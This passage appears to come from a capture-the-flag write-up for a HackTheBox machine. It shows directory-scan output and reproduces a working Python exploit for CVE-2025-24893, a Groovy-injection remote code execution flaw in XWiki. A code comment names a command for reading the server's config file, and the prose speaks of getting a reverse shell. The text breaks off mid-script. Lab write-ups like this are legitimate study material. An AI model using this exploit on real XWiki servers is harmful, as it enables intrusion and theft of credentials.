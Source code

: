     ===============================================================
    Foundess: 45 / 114443 (0.04%): wiki.editor.htb Status: 302 [Size: 0] [--> http://wiki.editor.htb/xwiki]
    Progress: 2447 / 114443 (2.14%)
    [!] Keyboard interrupt detected, terminating.
    Progress: 2632 / 114443 (2.30%)
    ===============================================================
    Finished
    ===============================================================
    ^C


On the wiki.editor.htb endpoint, we find that it is an XWiki instance of version 15.10.8. We don't find any explicit vulnerabilities for this version, but we find one that's not patched for a few versions after this.

We'll need to modify the OP's script a hair to fit our needs, but eventually we can identify a binary that will let us phone home and get a shell.


```python
#https://www.exploit-db.com/exploits/52136
import requests
import urllib
# Banner
def display_banner():
    print("="*80)
    print("Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code")
    print("Exploit Author: Al Baradi Joy")
    print("GitHub Exploit: https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py")
    print("="*80)

    # Function to detect the target protocol (HTTP or HTTPS)
def detect_protocol(domain):
    https_url = f"https://{domain}"
    http_url = f"http://{domain}"

    try:
        response = requests.get(https_url, timeout=5, allow_redirects=True)
        if response.status_code < 400:
            print(f"[✔] Target supports HTTPS: {https_url}")
        return https_url
    except requests.exceptions.RequestException:
        print("[!] HTTPS not available, falling back to HTTP.")

    try:
        response = requests.get(http_url, timeout=5, allow_redirects=True)
        if response.status_code < 400:
            print(f"[✔] Target supports HTTP: {http_url}")
        return http_url
    except requests.exceptions.RequestException:
        print("[✖] Target is unreachable on both HTTP and HTTPS.")
        exit(1)

    # Exploit function
def exploit(target_url, payload):
    target_url = detect_protocol(target_url.replace("http://", "").replace("https://", "").strip())
    # Tried doing RCE for revshell here and couldn't convert
    # cat /usr/lib/xwiki-jetty/webapps/xwiki/WEB-INF/xwiki.cfg > gets config
    exploit_url = f"{target_url}/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln({payload}.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"

    try:
        print(f"[+] Sending request to: {exploit_url}")
        response = requests.get(exploit_url)
```